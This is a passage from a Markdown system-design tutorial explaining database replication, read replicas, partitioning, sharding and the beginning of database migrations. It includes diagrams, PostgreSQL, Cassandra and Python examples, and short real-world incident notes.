**🎯 Remember:** Opening connections is expensive, so reuse them. Size pools to what the database can actually run in parallel (small!), not to the number of users, and remember that the total is pool × instances.

**🔗 See also:** [#42 N+1 Queries](#42-n1-queries), [#25 Timeouts](#25-timeouts), [#30 Backpressure](#30-backpressure), [#65 Autoscaling](#65-autoscaling), [#66 Cold Starts (Serverless)](#66-cold-starts-serverless), [#67 Serverless Limits](#67-serverless-limits)

---

### 44. Replication

> **In one line:** Replication keeps copies of the same data on several database servers, so losing one server doesn't lose your data or take your app offline.

**🏠 Real-life analogy:** A teacher writes notes on the whiteboard and every student copies them into a notebook. If someone erases the whiteboard, the notes still exist in many notebooks. Some students write more slowly than others, so their notebooks are a few lines behind. That delay is **replication lag**. And if the teacher writes something *wrong*, every student copies the mistake too, which is why replication is not a backup.

**❓ What problem does it solve?** One database server is a **single point of failure**: if the disk dies or the data center loses power, your app is down and recent data may be gone. Replication gives you:
- **High availability:** a copy can take over when the main server dies (called **failover**).
- **Read scaling:** spread read queries across copies (see #45).
- **Durability:** the data lives on several machines, ideally in different availability zones (separate data centers).
- **Locality:** copies near users in other regions answer faster.
- **Offloading:** run backups and analytics on a copy, not on the busy main server.

**⚙️ How it works:**

1. **Leader-follower (primary-replica).** This is the most common model, used by PostgreSQL, MySQL, SQL Server, MongoDB replica sets and Redis.
   - All **writes** go to one **leader** (primary).
   - The leader records every change in a log: the **WAL** (write-ahead log) in PostgreSQL, the **binlog** (binary log) in MySQL, the **oplog** in MongoDB.
   - **Followers** (replicas) stream that log and replay it in the same order, so they end up with the same data. Reads can go to any of them.
   - *Physical* replication ships low-level page changes (an exact byte copy, same major version). *Logical* replication ships row changes like "insert row 42", so it can copy selected tables or replicate between versions, which is handy for zero-downtime upgrades.
2. **Multi-leader.** Several nodes accept writes, for example one per region, and sync with each other.
   - Pro: fast local writes in every region, and it survives losing a whole region.
   - Con: **write conflicts**. Two users edit the same row in two regions at the same moment, and you need a rule: last-write-wins (silently loses one edit), merge logic, or CRDTs (data types designed to merge automatically).
   - Examples: MySQL Group Replication in multi-primary mode, multi-master PostgreSQL extensions, CouchDB, and offline-first mobile apps, where each phone acts like a leader.
3. **Leaderless (Dynamo-style).** There's no single leader. Writes are sent to **N** replicas and count as successful once **W** replicas confirm. Reads ask **R** replicas and keep the newest version.
   - If **W + R > N**, every read overlaps with at least one replica that has the latest write. A common setting is N = 3, W = 2, R = 2.
   - Stale replicas get fixed by *read repair* (fix it when a read notices) and background *anti-entropy* syncing.
   - This model comes from Amazon's 2007 **Dynamo** paper and is used by Cassandra, ScyllaDB and Riak. Cassandra lets you choose per query: `ONE`, `QUORUM`, `ALL`.
   - Even with W + R > N there are edge cases with concurrent writes (see #51).
4. **Synchronous vs asynchronous vs semi-synchronous:**

| Mode | Leader says "committed" when... | Pros | Cons |
|---|---|---|---|
| Asynchronous | The leader alone has saved it | Fastest writes, and a slow replica can't block the leader | If the leader dies, the most recent writes may be **lost** |
| Synchronous | Replica(s) have also saved it | No data loss on failover | Every write waits for the network, and a dead replica can block writes |
| Semi-synchronous | At least one replica has *received* it | A middle ground: little or no loss, modest latency | Still slower than async, with more complex configuration |

5. **Replication lag** is the time between a commit on the leader and that change being visible on a follower. Normally it's milliseconds, but it can grow to seconds or minutes under heavy writes, long-running queries on the replica, or network trouble. Monitor it with `pg_stat_replication` (PostgreSQL) or `SHOW REPLICA STATUS` → `Seconds_Behind_Source` (MySQL 8.0.22+).
6. **Failover.** When the leader dies, a follower is **promoted** to be the new leader. Tools and services: Patroni (PostgreSQL), Orchestrator (MySQL), and managed options like AWS RDS Multi-AZ, Aurora and Google Cloud SQL HA. The two big dangers are losing un-replicated writes with async replication, and **split brain**, where two nodes both think they're the leader. See #54 Leader Election and the Failover topic.

```mermaid
flowchart LR
    App["App"] -->|"all writes"| Leader[("Leader / Primary")]
    Leader -->|"WAL / binlog stream"| F1[("Follower 1")]
    Leader -->|"WAL / binlog stream"| F2[("Follower 2<br/>other zone")]
    App -.->|"reads"| F1
    App -.->|"reads"| F2
```

```mermaid
sequenceDiagram
    participant C as Client
    participant L as Leader
    participant F as Follower
    Note over C,F: Asynchronous replication
    C->>L: COMMIT
    L-->>C: OK
    L->>F: Ship log record a moment later
    Note over C,F: Synchronous replication
    C->>L: COMMIT
    L->>F: Ship log record
    F-->>L: Saved
    L-->>C: OK
```

```mermaid
flowchart LR
    Writer["Writer<br/>N = 3, W = 2"] -->|"v2 saved"| Rep1[("Replica 1")]
    Writer -->|"v2 saved"| Rep2[("Replica 2")]
    Writer -.->|"v2 missed"| Rep3[("Replica 3<br/>still v1")]
    Reader["Reader<br/>R = 2"] -->|"asks"| Rep2
    Reader -->|"asks"| Rep3
    Reader --> Result["Gets v2 and v1<br/>returns newest v2<br/>repairs Replica 3"]
```

**💻 Example:** PostgreSQL streaming replication. On the primary's `postgresql.conf`:

```ini
wal_level = replica
max_wal_senders = 10
synchronous_commit = on
synchronous_standby_names = 'ANY 1 (replica_a, replica_b)'   # wait for 1 of 2 replicas
```

(Leave `synchronous_standby_names` empty for plain asynchronous replication.) Create a replica by cloning the primary. `-R` writes the settings that make it follow the primary:

```bash
pg_basebackup -h primary.internal -U replicator -D /var/lib/postgresql/data -R -X stream -P
```

Check replicas and their lag from the primary:

```sql
SELECT application_name, state, sync_state, replay_lag
FROM pg_stat_replication;
```

A leaderless quorum in Cassandra (`cqlsh`):

```sql
CREATE KEYSPACE shop
  WITH replication = {'class': 'NetworkTopologyStrategy', 'dc1': 3};   -- N = 3

CONSISTENCY QUORUM;   -- each read and write needs 2 of 3 replicas, and 2 + 2 > 3
```

**🌍 Real-world usage:**
- **GitHub, October 2018:** a 43-second network break between data centers led automated failover (Orchestrator) to promote MySQL primaries on the US West Coast. Some writes existed only on the East Coast, and GitHub ran degraded for about 24 hours while it reconciled the data. Failover with async replication is hard.
- **GitLab, January 2017:** while fighting a replication problem, an engineer accidentally deleted the primary database's data directory, and several backup methods turned out not to be working. About six hours of production data were lost. Replication protects you from a dead server, not from a bad command, which replicates too. You still need backups.
- **Amazon Aurora** stores six copies of your data across three availability zones and uses quorums (4 of 6 for writes, 3 of 6 for reads).

**⚖️ Trade-offs:**

| Model | When to use | Downside |
|---|---|---|
| Leader-follower | The default for most apps (Postgres, MySQL) | Writes limited to one node, and failover needs care |
| Multi-leader | Multi-region writes, offline-capable apps | Write conflicts, complex to reason about |
| Leaderless (quorum) | Massive write volume, always-on (Cassandra) | Eventual consistency, no simple transactions, and you must tune N, W, R |

**⚠️ Common mistakes:**
- Treating replication as a backup. A bad `DELETE` or `DROP TABLE` replicates to every copy in milliseconds.
- Not monitoring replication lag until users see stale data or a failover loses writes.
- Using async replication with automatic failover without accepting that the last few seconds of writes can be lost.
- Putting all replicas in the same rack or availability zone, where one power failure kills them all.
- Letting an old leader come back and accept writes after failover (split brain). Use **fencing**, which means forcibly cutting off the old leader.

**🎯 Remember:** Replication means the same data in many copies. It buys you availability and read scale, not backups. Async is fast but can lose recent writes on failover, and sync is safe but slower.

**🔗 See also:** [#45 Read Replicas](#45-read-replicas), [#50 CAP Theorem](#50-cap-theorem), [#51 Eventual Consistency](#51-eventual-consistency), [#52 Network Partitions](#52-network-partitions), [#54 Leader Election, Failover, Backups](#54-leader-election)

---

### 45. Read Replicas

> **In one line:** Read replicas are extra read-only copies of your database that take reading work off the main database.

**🏠 Real-life analogy:** A library has one master copy of a reference book that only the librarian may edit. To let 200 students read it at once, the library puts photocopies on many tables. Reading is fast because everyone has a copy nearby. But when the librarian fixes a typo, the photocopies are updated a few moments later. For a short time, a student may read the old version.

**❓ What problem does it solve?** Most apps are **read-heavy**: a product page is viewed far more often than the product is bought, and a tweet is read far more often than it is written.
- With one primary doing everything, its CPU and disk max out.
- Buying a bigger server (vertical scaling, #63) gets expensive and eventually hits a ceiling.
- Heavy reports run on the primary slow down checkout for real customers.

Read replicas add more machines that can answer `SELECT`s.

**⚙️ How it works:**

1. **Create replicas** using (usually asynchronous) replication from the primary (see #44).
2. **Route queries:**
   - **Writes** (`INSERT`, `UPDATE`, `DELETE`) and reads that must be perfectly fresh go to the **primary**.
   - **Other reads** go to a **replica**, picked by round-robin, a load balancer (#12), or a managed "reader endpoint".
3. **Where the routing lives:**
   - In app code, with two connection pools.
   - In framework features: Django database routers, Rails multiple databases with `writing`/`reading` roles and automatic role switching, Laravel read/write connections.
   - In a proxy: ProxySQL, MaxScale, Pgpool-II, the Aurora reader endpoint, or RDS Proxy reader endpoints.
4. **The catch: replication lag.** Replicas are slightly behind. This causes the **read-your-own-writes** problem: a user changes their name, the page reloads from a replica that hasn't caught up yet, the old name appears, and the user thinks the save failed. A related problem is *non-monotonic reads*: refreshing twice hits two different replicas, so newer data appears and then "disappears".
5. **Fixes for read-your-own-writes:**
   - **Read from the primary for N seconds after a user writes.** Store `last_write_at` in their session or cookie. Rails' automatic role switching does exactly this, and its documented example uses a 2-second delay.
   - **Session stickiness:** pin each user to one replica (this fixes non-monotonic reads), or always read "my own stuff" (my profile, my cart) from the primary.
   - **Wait for a log position:** after the write, save the primary's position: the **LSN** (log sequence number) in PostgreSQL via `pg_current_wal_lsn()`, or the **GTID** (global transaction ID) in MySQL. Before reading, check that the replica has replayed at least that far (`pg_last_wal_replay_lsn()`, or MySQL's `WAIT_FOR_EXECUTED_GTID_SET()`). If it hasn't, wait briefly or fall back to the primary.
   - **Critical reads from the primary always:** account balances, stock levels right before payment.
6. **Managed services:**
   - **AWS RDS read replicas** use the engine's native async replication, can live in other regions, and can be promoted into standalone databases.
   - **Amazon Aurora Replicas** (up to 15 per cluster) share the same distributed storage as the writer, so lag is typically low (AWS documents it as usually under 100 ms). The cluster's **reader endpoint** load-balances across them.
   - The classic RDS Multi-AZ *standby* is for failover only and can't serve reads.
7. **Read replicas do not scale writes.** Every replica must replay every write. If writes are your bottleneck, look at sharding (#47).

```mermaid
flowchart LR
    App["App"] --> Router{"Write, or a read<br/>that must be fresh?"}
    Router -->|"yes"| Primary[("Primary")]
    Router -->|"no"| ReaderLB["Reader endpoint<br/>round-robin"]
    ReaderLB --> Rep1[("Replica 1")]
    ReaderLB --> Rep2[("Replica 2")]
    ReaderLB --> Rep3[("Replica 3")]
    Primary -.->|"async replication"| Rep1
    Primary -.->|"async replication"| Rep2
    Primary -.->|"async replication"| Rep3
```

```mermaid
sequenceDiagram
    participant U as User
    participant A as App
    participant P as Primary
    participant R as Replica
    U->>A: Change my name to Maya
    A->>P: UPDATE users SET name = Maya WHERE id = 42
    P-->>A: OK
    A-->>U: Saved
    U->>A: Reload profile page
    alt Without a fix
        A->>R: SELECT name FROM users WHERE id = 42
        R-->>A: Old name, change not replicated yet
        A-->>U: Shows the OLD name
    else With a fix, user wrote 1 second ago
        A->>P: SELECT name FROM users WHERE id = 42
        P-->>A: Maya
        A-->>U: Shows Maya
    end
    P->>R: Change arrives on the replica a moment later
```

**💻 Example:** Simple read/write routing with "stick to the primary after your own write" in Python:

```python
import os, random, time
from sqlalchemy import create_engine, text

primary = create_engine(os.environ["PRIMARY_URL"], pool_size=10)
replicas = [create_engine(u, pool_size=10) for u in os.environ["REPLICA_URLS"].split(",")]
STICKY_SECONDS = 5   # read from the primary this long after the user's own write

def engine_for(kind, session):
    if kind == "write":
        session["last_write_at"] = time.time()
        return primary
    if time.time() - session.get("last_write_at", 0) < STICKY_SECONDS:
        return primary                      # avoid a stale read right after writing
    return random.choice(replicas)          # normal reads spread across replicas

def update_name(session, user_id, name):
    with engine_for("write", session).begin() as conn:
        conn.execute(text("UPDATE users SET name = :n WHERE id = :id"), {"n": name, "id": user_id})

def get_profile(session, user_id):
    with engine_for("read", session).connect() as conn:
        return conn.execute(text("SELECT id, name FROM users WHERE id = :id"), {"id": user_id}).first()
```

The LSN approach in PostgreSQL:

```sql
-- On the primary, right after the write commits: remember this position in the user's session
SELECT pg_current_wal_lsn();                                  -- e.g. 0/3A2B1C8

-- On a replica, before reading: has it replayed at least that far?
SELECT pg_last_wal_replay_lsn() >= '0/3A2B1C8'::pg_lsn AS caught_up;
```

**🌍 Real-world usage:** Read replicas are the standard first step for scaling a relational database. Rails' built-in multiple-database support (Rails 6+), including automatic primary/replica switching, was largely contributed by engineers at GitHub, which runs a large MySQL fleet. AWS RDS, Aurora, Google Cloud SQL and Azure Database all offer one-click read replicas. Many teams also keep a dedicated replica for analytics and BI (business intelligence) tools so reports never compete with customer traffic.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Send all reads to replicas | Data where a few seconds of staleness is fine (product pages, feeds) | Users can see their own changes "disappear" |
| Primary for N seconds after a write | Simple and works for most apps | More load on the primary, and N is a guess |
| Sticky sessions / own data from primary | Profiles, carts, settings | Uneven load, more routing logic |
| Wait for LSN/GTID | You need exact correctness with replicas | More complex, and reads can stall when lag is high |
| Always read from primary | Money, inventory, auth | No read-scaling benefit for those queries |

**⚠️ Common mistakes:**
- Assuming replicas are instantly up to date and building "save then reload" flows on them.
- Adding replicas to fix a *write* bottleneck. They can't help with that.
- Starting a transaction on the primary, then reading inside it from a replica connection. You won't see your own uncommitted data.
- Not removing a badly lagging replica from rotation. Watch lag and set a maximum.
- Running giant analytics queries on the same replicas that serve users. They slow down and can increase lag.

**🎯 Remember:** Read replicas scale reads, not writes, and they're always a little behind. Plan for read-your-own-writes from day one.

**🔗 See also:** [#44 Replication](#44-replication), [#47 Sharding](#47-sharding), [#38 Caching](#38-caching), [#51 Eventual Consistency](#51-eventual-consistency), [#12 Load Balancing](#12-load-balancing)

---

### 46. Partitioning

> **In one line:** Partitioning splits one huge table into smaller pieces inside the same database, while you still query it as if it were one table.

**🏠 Real-life analogy:** Picture a filing cabinet with one drawer per year instead of one giant pile of paper. Looking for March 2026 invoices? Open only the 2026 drawer. Throwing away everything from 2019? Pull out the whole 2019 drawer and toss it. You don't have to pick out sheets one by one.

**❓ What problem does it solve?** Some tables grow to billions of rows: logs, events, orders, sensor readings. Then:
- Indexes become so big they no longer fit in memory, so lookups slow down.
- Maintenance (PostgreSQL's `VACUUM`, which cleans up dead rows, plus reindexing) takes hours.
- Deleting old data with `DELETE FROM events WHERE created_at < '2024-01-01'` is painfully slow, produces a mountain of WAL (which also increases replication lag), and leaves the table bloated.
- Most queries only care about recent data, but they still pay for the giant table.

**⚙️ How it works:**

1. **Choose a partition key** (for example `created_at`) and a rule. The database stores each partition as its own physical table. The parent table becomes a "router" that you query normally.
2. **Horizontal partitioning splits rows:** January's orders in one partition, February's in another. Same columns, different rows. This is what "partitioning" usually means.
3. **Vertical partitioning splits columns:** keep small, hot columns (`id, name, email`) in one table and move large, rarely-used columns (`bio`, `preferences_json`) into a second table with the same `id`. PostgreSQL already does a bit of this automatically with **TOAST**, which stores very large values out of line.
4. **Three common strategies:**

| Strategy | How rows are assigned | Great for | Example |
|---|---|---|---|
| Range | Key falls in a range | Time-series data, retention | `created_at` by month |
| List | Key matches a list of values | Clear categories | `region IN ('EU')`, `region IN ('US')` |
| Hash | `hash(key) % number_of_partitions` | Even spread when there's no natural range | `customer_id` across 8 partitions |

5. **Partition pruning.** When your `WHERE` clause includes the partition key, the planner skips partitions that can't contain matching rows. A query for "October 2026" touches just one month instead of five years. If the partition key is NOT in the `WHERE`, every partition is scanned, which can be slower than an unpartitioned table.
6. **Cheap data retention.** Dropping a partition is almost instant because it just removes a file. Deleting the same rows one by one can take hours.
7. **Things to know (PostgreSQL):**
   - Primary keys and unique constraints must include the partition key.
   - Thousands of partitions slow down query planning, so keep the count reasonable.
   - Future partitions must exist before data arrives. Automate it with **pg_partman** or a scheduled job (#35).
   - A `DEFAULT` partition catches rows that don't match any other partition.
8. **Partitioning is not sharding.** All partitions live on the *same* server, so you get no extra CPU, RAM or write capacity. For that, see #47.

```mermaid
flowchart TD
    subgraph Horizontal["Horizontal: split ROWS"]
        Big1["orders<br/>all rows"] --> H1["orders_2026_09<br/>September rows"]
        Big1 --> H2["orders_2026_10<br/>October rows"]
        Big1 --> H3["orders_2026_11<br/>November rows"]
    end
    subgraph Vertical["Vertical: split COLUMNS"]
        Big2["users<br/>all columns"] --> V1["users_core<br/>id, name, email"]
        Big2 --> V2["users_profile<br/>id, bio, preferences"]
    end
```

```mermaid
flowchart LR
    Query["SELECT ... WHERE created_at<br/>in October 2026"] --> Planner{"Planner checks<br/>partition bounds"}
    Planner -->|"scan"| Oct[("orders_2026_10")]
    Planner -.->|"pruned, skipped"| Sep[("orders_2026_09")]
    Planner -.->|"pruned, skipped"| Nov[("orders_2026_11")]
```

**💻 Example:** PostgreSQL declarative partitioning (version 10+), with orders partitioned by month:

```sql
CREATE TABLE orders (
    id          bigserial,
    user_id     bigint        NOT NULL,
    total       numeric(10,2) NOT NULL,
    created_at  timestamptz   NOT NULL,
    PRIMARY KEY (id, created_at)                 -- must include the partition key
) PARTITION BY RANGE (created_at);

CREATE TABLE orders_2026_09 PARTITION OF orders
    FOR VALUES FROM ('2026-09-01') TO ('2026-10-01');   -- start inclusive, end exclusive
CREATE TABLE orders_2026_10 PARTITION OF orders
    FOR VALUES FROM ('2026-10-01') TO ('2026-11-01');
CREATE TABLE orders_default PARTITION OF orders DEFAULT; -- safety net for unexpected dates

CREATE INDEX ON orders (user_id, created_at);   -- automatically created on every partition
```

Partition pruning in action:

```sql
EXPLAIN SELECT count(*) FROM orders
WHERE created_at >= '2026-10-01' AND created_at < '2026-10-15';
-- The plan mentions only orders_2026_10, because the other partitions were pruned
```

List and hash partitioning look like this:

```sql
CREATE TABLE customers (id bigint, region text, name text) PARTITION BY LIST (region);
CREATE TABLE customers_eu PARTITION OF customers FOR VALUES IN ('EU');

CREATE TABLE carts (customer_id bigint, items jsonb) PARTITION BY HASH (customer_id);
CREATE TABLE carts_p0 PARTITION OF carts FOR VALUES WITH (MODULUS 4, REMAINDER 0);
```

Cheap data retention, removing a whole old month in milliseconds:

```sql
ALTER TABLE orders DETACH PARTITION orders_2024_01;   -- no longer part of "orders"
DROP TABLE orders_2024_01;                            -- vs DELETE-ing millions of rows
```

**🌍 Real-world usage:** PostgreSQL, MySQL (RANGE, LIST, HASH, KEY), Oracle and SQL Server all support partitioning. The PostgreSQL docs' rule of thumb is that partitioning pays off when a table would otherwise be larger than the database server's memory. **pg_partman** automates creating and dropping time partitions. **TimescaleDB** turns a table into a "hypertable" that is automatically partitioned into time-based chunks. In **Google BigQuery**, partitioned tables let queries skip whole partitions, and since BigQuery's on-demand pricing is based on bytes scanned, that saves money directly.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Queries that filter on the key only touch relevant partitions | Queries without the key scan *all* partitions |
| Dropping old data is instant | Unique constraints must include the partition key |
| Smaller indexes and faster maintenance per partition | You must create future partitions (automation needed) |
| No application changes needed | Does not add servers, so no more write capacity |

**⚠️ Common mistakes:**
- Partitioning small tables "for performance". It adds planning overhead for no gain.
- Choosing a partition key that most queries don't filter on, so pruning never happens.
- Forgetting to create next month's partition. Inserts then fail, or everything piles into the default partition.
- Creating thousands of tiny partitions (for example daily partitions kept for 10 years).
- Expecting partitioning to fix "one server can't handle our writes". That's sharding's job.

**🎯 Remember:** Partitioning splits a big table *inside one database*. The big wins are partition pruning and dropping old data instantly. It does not add more machines.

**🔗 See also:** [#47 Sharding](#47-sharding), [#40 Database Indexing](#40-database-indexing), [#41 Query Optimization](#41-query-optimization), [#35 Cron Jobs](#35-cron-jobs)

---


### 47. Sharding

> **In one line:** Sharding splits your data across many separate database servers, so each server holds and handles only its own slice.

**🏠 Real-life analogy:** A library grows so big that one building can't hold all the books or all the visitors. So it opens several buildings: authors A-F in building 1, G-M in building 2, and so on. Each building has its own shelves (storage) and its own staff (CPU). A sign at the entrance tells you which building to go to. Finding one author's books means visiting one building. But "list every book published in 2020" means visiting *all* the buildings and combining the answers.

**❓ What problem does it solve?** With replication (#44) and read replicas (#45), **every write still goes to one primary**. Eventually even the biggest machine you can buy can't keep up:
- too many writes per second for one server,
- too much data for one server's disks,
- indexes and the "hot" data no longer fit in one server's RAM,
- backups, restores and maintenance on one giant database take too long.

Sharding is **horizontal scaling (#64) for writes and storage**: add servers, and each one handles part of the load.

**⚙️ How it works:**

1. **Pick a shard key** (also called a partition key or distribution column): the column that decides where each row lives, for example `user_id`, `tenant_id` or `channel_id`.
2. **Route every query.** A router computes `shard = f(shard_key)` and sends the query there. The router can live in your app code, in a proxy (Vitess's VTGate, MongoDB's `mongos`), or inside the database (Cassandra, DynamoDB, Citus).
3. **Each shard is usually its own replicated cluster** (a primary plus replicas), so sharding and replication are used *together*.
4. **Choosing the shard key is THE most important decision**, because changing it later means moving all your data. A good key:
   - has many distinct values and spreads data and traffic **evenly**,
   - appears in your most common queries, so they hit **one** shard,
   - keeps related data **together** (a user's orders on the same shard as the user, so JOINs and transactions stay local),
   - never changes for a given row.

   Bad keys: `country` (one country can be half your users), `created_at` with range sharding (all new writes hit the newest shard), or a boolean.
5. **Sharding strategies:**
   - **Range:** `user_id` 1-1,000,000 → shard 1, and so on. Range scans are easy, but the newest range gets all the traffic (a hot spot).
   - **Hash:** `hash(key) % N`. This gives an even spread, but range queries must ask every shard, and changing N moves almost every key. Fix that with consistent hashing or a fixed number of logical shards.
   - **Directory / lookup:** a lookup table says "tenant 42 → shard 7". It's very flexible (you can move one big customer by itself), but the directory is an extra hop, must be cached, and must never go down.
   - **Geo:** shard by region (EU users on EU servers). This gives lower latency and helps with data residency laws like GDPR, but regions differ wildly in size.
6. **Consistent hashing:** put the shards at points on a ring of hash values. Each key goes to the first shard clockwise from its own hash. Adding a shard only takes keys from its one neighbor, roughly 1/N of the keys, instead of reshuffling everything. **Virtual nodes** (many points per server) even out the load. Cassandra and Riak use this idea.
7. **Logical shards (the Instagram trick):** create many *logical* shards up front (thousands), and map them onto a few *physical* servers. A key's logical shard never changes. To grow, you move whole logical shards to new servers and update the map, with no re-hashing of keys.
8. **Hot spots / the celebrity problem:** one key gets a huge share of traffic, like a celebrity's account, a viral post, or your biggest customer. Fixes include:
   - **splitting the hot key** into sub-keys with a suffix (`post_123_0` ... `post_123_9`) and combining them on read,
   - **caching** it (#38),
   - giving big tenants a **dedicated shard**,
   - **rate limiting** (#14).
9. **Resharding pain:** moving data between shards while the app is live typically means:
   1. copy the data (backfill),
   2. keep it in sync with dual writes or replication,
   3. verify it,
   4. switch the routing,
   5. clean up.

   This is often weeks of careful work. Vitess, the MongoDB balancer and the Citus rebalancer automate parts of it.
10. **Cross-shard operations are hard:**
    - A query without the shard key becomes a **scatter-gather** to all shards. It's only as fast as the slowest shard (#8 Tail Latency).
    - **JOINs across shards** aren't natively possible. Denormalize, join in app code, or co-locate related tables on the same key.
    - **Transactions across shards** need two-phase commit or Sagas (#36, #37).
    - **Unique IDs:** per-shard auto-increment produces duplicates, so use a global ID scheme (Snowflake-style IDs, Instagram-style IDs, UUIDs).

```mermaid
flowchart TD
    App["App servers"] --> Router{"Router<br/>shard_for(user_id)"}
    Router -->|"logical shards 0-1023"| S1[("Shard 1<br/>primary + replicas")]
    Router -->|"logical shards 1024-2047"| S2[("Shard 2<br/>primary + replicas")]
    Router -->|"logical shards 2048-3071"| S3[("Shard 3<br/>primary + replicas")]
    Router -->|"logical shards 3072-4095"| S4[("Shard 4<br/>primary + replicas")]
```

Consistent hashing ring (positions 0-359, shards placed at 0, 90, 180, 270):

```mermaid
flowchart LR
    ShardA["Shard A<br/>at 0"] --> ShardB["Shard B<br/>at 90"]
    ShardB --> ShardC["Shard C<br/>at 180"]
    ShardC --> ShardD["Shard D<br/>at 270"]
    ShardD -->|"ring wraps around"| ShardA
    Key1(["user 42 hashes to 30"]) -.->|"next shard clockwise"| ShardB
    Key2(["user 7 hashes to 200"]) -.->|"next shard clockwise"| ShardD
    NewE["New Shard E at 135<br/>takes keys 91-135 from C only"] -.-> ShardC
```

Instagram's 64-bit IDs encode which logical shard a row lives on:

```mermaid
flowchart LR
    Bits1["41 bits<br/>milliseconds since a custom epoch"] --> Bits2["13 bits<br/>logical shard ID"] --> Bits3["10 bits<br/>per-shard sequence"]
```

Partitioning vs sharding vs replication:

| | Partitioning (#46) | Sharding (#47) | Replication (#44) |
|---|---|---|---|
| What is split or copied | One table split into pieces | The whole dataset split across servers | The same data copied to several servers |
| Number of servers | One | Many | Many |
| Each server holds | All data (in pieces) | Only its slice | A full copy |
| Scales writes? | No | **Yes** | No |
| Scales reads? | A little (pruning) | Yes | **Yes** |
| Improves availability? | No | Partly (a failure hits only one slice) | **Yes** |
| Main pain | Picking the partition key | Shard key, cross-shard queries, resharding | Lag, failover |

**💻 Example:** A `shard_for(user_id)` router in Python using fixed logical shards, so adding servers never changes which logical shard a user belongs to:

```python
import hashlib

NUM_LOGICAL_SHARDS = 4096            # fixed forever, so choose generously up front
PHYSICAL = {                         # logical shard range -> database server
    range(0, 2048): "postgresql://db-a.internal/app",
    range(2048, 4096): "postgresql://db-b.internal/app",
}

def logical_shard(user_id: int) -> int:
    digest = hashlib.md5(str(user_id).encode()).digest()   # stable hash (Python's hash() is not)
    return int.from_bytes(digest[:8], "big") % NUM_LOGICAL_SHARDS

def shard_for(user_id: int) -> str:
    ls = logical_shard(user_id)
    for shard_range, dsn in PHYSICAL.items():
        if ls in shard_range:
            return dsn
    raise ValueError(f"no server owns logical shard {ls}")

print(logical_shard(42), shard_for(42))
```

To add `db-c`, you'd copy logical shards 3072-4095 to it, then change the map to `range(2048, 3072): db-b` and `range(3072, 4096): db-c`. No user ever changes logical shard. Instagram-style IDs let you find the shard from the ID alone:

```python
def make_id(ms_since_epoch: int, shard_id: int, seq: int) -> int:
    return (ms_since_epoch << 23) | (shard_id << 10) | (seq % 1024)

def shard_from_id(item_id: int) -> int:
    return (item_id >> 10) & 0x1FFF        # pull out the 13 shard bits

photo_id = make_id(1_000_000, 1341, 7)
print(shard_from_id(photo_id))             # 1341, so we know where to look it up
```

**🌍 Real-world usage:**
- **Instagram** described sharding PostgreSQL in its well-known engineering post "Sharding & IDs at Instagram". It used thousands of *logical* shards (PostgreSQL schemas) on fewer physical servers, plus 64-bit IDs made of 41 bits of time, a 13-bit logical shard ID and a 10-bit sequence, generated inside the database.
- **Vitess** started at YouTube to scale MySQL horizontally and is now a CNCF (Cloud Native Computing Foundation) graduated project. Slack moved its MySQL workloads onto Vitess, and PlanetScale is built on it.
- **Citus** is a PostgreSQL extension (now part of Microsoft) that distributes tables by a distribution column. It powers Azure Cosmos DB for PostgreSQL.
- **MongoDB** has built-in sharding with ranged or hashed shard keys, a `mongos` router, and a balancer that moves chunks between shards.
- **DynamoDB** and **Cassandra** shard automatically by **partition key**, so your key design decides whether load is even. **Discord** wrote about storing messages in Cassandra with the partition key `(channel_id, bucket)`, where the bucket is a fixed time window, so one busy channel can't grow a single partition forever.
- **Notion** has written about sharding its PostgreSQL database by workspace ID into hundreds of logical shards spread over a few dozen physical databases.

**⚖️ Trade-offs:**

| Strategy | When to use | Downside |
|---|---|---|
| Range | Range scans by key, time-ordered data | Hot spot on the newest range |
| Hash (with logical shards / consistent hashing) | Even spread of users or tenants | Range queries hit every shard |
| Directory / lookup | Tenants of very different sizes, moving one tenant at a time | Extra lookup hop, and the directory must be highly available |
| Geo | Data residency, regional latency | Uneven shard sizes, and users who move or travel |
| Don't shard yet | Indexes, caching, replicas, partitioning and a bigger box still work | You'll need a plan before you hit the wall |

**⚠️ Common mistakes:**
- Sharding too early. Try indexing, query fixes, caching, read replicas, partitioning and vertical scaling (#63) first, because sharding adds permanent complexity.
- Choosing a shard key that most queries don't include, so everything becomes scatter-gather.
- Using `hash(key) % number_of_servers` directly. Adding one server moves almost all the data. Use many logical shards or consistent hashing.
- Using per-shard auto-increment IDs, which collide across shards. Use globally unique IDs.
- Forgetting admin dashboards and analytics, which need *all* the data. Send it to a separate data warehouse instead of querying every shard.

**🎯 Remember:** Sharding scales writes and storage by splitting data across servers, and everything depends on the shard key. Shard last, shard by the key your queries use, and start with many logical shards.

**🔗 See also:** [#46 Partitioning](#46-partitioning), [#44 Replication](#44-replication), [#45 Read Replicas](#45-read-replicas), [#36 Distributed Transactions](#36-distributed-transactions), [#37 Saga Pattern](#37-saga-pattern), [#64 Horizontal Scaling](#64-horizontal-scaling), [#12 Load Balancing](#12-load-balancing), [#50 CAP Theorem](#50-cap-theorem)

---

### 48. Database Migrations

> **In one line:** Migrations are version-controlled scripts that change your database's structure step by step, in the same order on every environment.

**🏠 Real-life analogy:** Imagine renovating a house while the family still lives in it. You don't knock down the kitchen wall during dinner. You build the new kitchen next to the old one, move everyone over, and only then remove the old kitchen. You also keep a written log of every change, so the builder working on the identical house next door can make exactly the same changes in the same order.

**❓ What problem does it solve?** Without migrations:
- People run `ALTER TABLE` by hand in production, and nobody remembers exactly what was changed.
- Dev, staging and production **drift apart**, so code that works in staging crashes in production because a column is missing.
- New developers can't build a correct local database from scratch.
- A careless schema change can **lock a busy table** for minutes, which is effectively an outage.

**⚙️ How it works:**

1. **One change = one file**, with an ordered version number or ID, stored in Git next to your code.
   - Flyway uses names like `V3__add_phone_to_users.sql`.
   - Alembic and Django generate Python files.
   - Most tools support **up** (apply) and **down** (revert) steps.
2. **The tool remembers what's applied** in a history table (see #49). On each run it applies only the new files, in order. PostgreSQL can run most DDL (schema-changing statements) inside a transaction, so a failed migration rolls back cleanly. MySQL commits DDL immediately, so a half-failed migration can leave things half-done.
3. **Popular tools:**

| Tool | Ecosystem | Run with |
|---|---|---|
| Flyway | Java/JVM, plain SQL files | `flyway migrate` |
| Liquibase | Java/JVM, XML/YAML/SQL changelogs | `liquibase update` |
| Alembic | Python + SQLAlchemy | `alembic upgrade head` |
| Django migrations | Python + Django | `python manage.py migrate` |
| Rails migrations | Ruby on Rails | `rails db:migrate` |
